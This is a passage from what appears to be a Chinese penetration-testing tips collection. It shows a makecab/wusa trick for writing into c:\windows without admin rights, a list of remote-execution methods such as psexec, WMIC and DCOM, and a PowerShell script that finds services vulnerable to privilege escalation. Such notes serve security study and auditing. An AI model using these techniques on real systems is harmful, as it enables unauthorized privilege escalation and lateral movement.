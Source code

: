 eg.

以普通用户权限向`c:\windows`文件夹下释放文件

```
makecab c:\test\test.exe %TMP%\1.tmp
wusa %TMP%\1.tmp /extract:"c:\windows" /quiet
```

适用于Win7、Win8，学习自：

https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-WScriptBypassUAC.ps1

参考：

[《Empire中的Invoke-WScriptBypassUAC利用分析》](https://3gstudent.github.io/3gstudent.github.io/Empire%E4%B8%AD%E7%9A%84Invoke-WScriptBypassUAC%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90/)

---

### Tips 39 在远程系统上执行程序的方法汇总

常用方法：

- at
- psexec
- WMIC
- wmiexec
- smbexec
- powershell remoting

新方法：

- DCOM

参考:

[《域渗透——利用DCOM在远程系统执行程序》](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E5%88%A9%E7%94%A8DCOM%E5%9C%A8%E8%BF%9C%E7%A8%8B%E7%B3%BB%E7%BB%9F%E6%89%A7%E8%A1%8C%E7%A8%8B%E5%BA%8F/)

---

### Tips 40 寻找Windows系统中可被利用的服务

枚举Windows系统服务对应可执行文件的路径，如果路径包含普通用户的写权限，那么该服务可被用来提升权限

powershell代码:

```
$ErrorActionPreference="SilentlyContinue"
$out = (Get-WmiObject win32_service | select PathName)
$out|% {[array]$global:path += $_.PathName}
for($i=0;$i -le $out.Count-1;$i++)
{
    $a=Get-Acl -Path $out[$i].PathName.ToUpper().Substring($out[$i].PathName.ToUpper().IndexOfAny("C"),$out[$i].PathName.ToUpper().LastIndexOfAny("\"))
 	If($a.Owner -ne "NT AUTHORITY\SYSTEM"){
		If($a.Owner -ne "NT SERVICE\TrustedInstaller"){
			If($a.Owner -ne "BUILTIN\Administrators"){				
				Get-WmiObject win32_service | ?{$_.PathName -like $out[$i].PathName}|select Name,PathName,ProcessId,StartMode,State,Status
				Write-host Owner: $a.Owner
			}	
		}
    }
}
Write-host [+] All done.
```
